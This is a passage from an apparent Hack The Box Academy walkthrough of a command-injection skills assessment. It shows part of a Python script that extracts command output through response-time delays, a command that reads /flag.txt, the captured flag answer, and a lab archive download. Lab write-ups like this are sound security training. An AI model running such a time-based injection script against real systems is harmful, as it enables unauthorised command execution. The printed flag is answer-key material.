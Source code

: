 ```python
            headers = {"Content-Type": "application/json",
                       "Authorization": f"Bearer {token}"}
            response = requests.post(
                qr_endpoint, headers=headers, data=payload)

            # check if response took 2 seconds or more
            if response.elapsed.total_seconds() >= 2:
                # print character and break loop
                print(chr(j), end="", flush=True)
                break
        else:
            # if no character was found, break loop
            break
```

Students need to run the script and enter `cat /flag.txt` at the prompt:

Code: shell

```shell
python3 poc.py
cat /flag.txt
```

```
┌─[us-academy-1]─[10.10.15.254]─[htb-ac-594497@htb-5kfh5qltzn]─[~/skills_assessment]
└──╼ [★]$ python3 poc.py 

> cat /flag.txt
HTB{m4573r_c0mm4nd3r_!nj3c70r}
```

Answer: `HTB{m4573r_c0mm4nd3r_!nj3c70r}`

# Skills Assessment

## Question 2

### "The attached archive contains a basic script that may be vulnerable. Try to identify as many vulnerabilities as you can and patch them. Then, visit /patch and paste the patched script to get the flag, or to know what you have missed."

Students need to first download and unzip the attached `skills_assessment_patching.zip` archive:

Code: shell

```shell
wget https://academy.hackthebox.com/storage/modules/244/skills_assessment_patching.zip && unzip skills_assessment_patching.zip
```

```
┌─[us-academy-1]─[10.10.15.254]─[htb-ac-594497@htb-vtdwe0k8n4]─[~]
└──╼ [★]$ wget https://academy.hackthebox.com/storage/modules/244/skills_assessment_patching.zip && unzip skills_assessment_patching.zip

--2023-11-27 16:31:15--  https://academy.hackthebox.com/storage/modules/244/skills_assessment_patching.zip
Resolving academy.hackthebox.com (academy.hackthebox.com)... 104.18.20.126, 104.18.21.126, 2606:4700::6812:147e, ...
Connecting to academy.hackthebox.com (academy.hackthebox.com)|104.18.20.126|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 611 [application/zip]
Saving to: ‘skills_assessment_patching.zip’

```